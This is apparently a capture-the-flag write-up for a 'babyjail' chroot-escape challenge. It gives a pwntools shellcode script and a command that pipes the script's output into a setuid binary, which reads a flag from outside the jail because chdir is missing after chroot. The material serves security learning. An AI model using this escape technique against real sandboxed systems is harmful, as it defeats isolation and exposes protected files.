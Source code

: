 this level the jail c code chroot to /tmp/xxx but without chdir.
pwn scripts:

```
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcode=asm(shellcraft.cat('../../flag'))
sys.stdout.buffer.write(shellcode)
```

save the script above to /tmp/res.py and then execute:   
`python3 /tmp/res.py | ./babyjail_level2 a`    
babyjail_level2 is a file under /challenge with root bit.

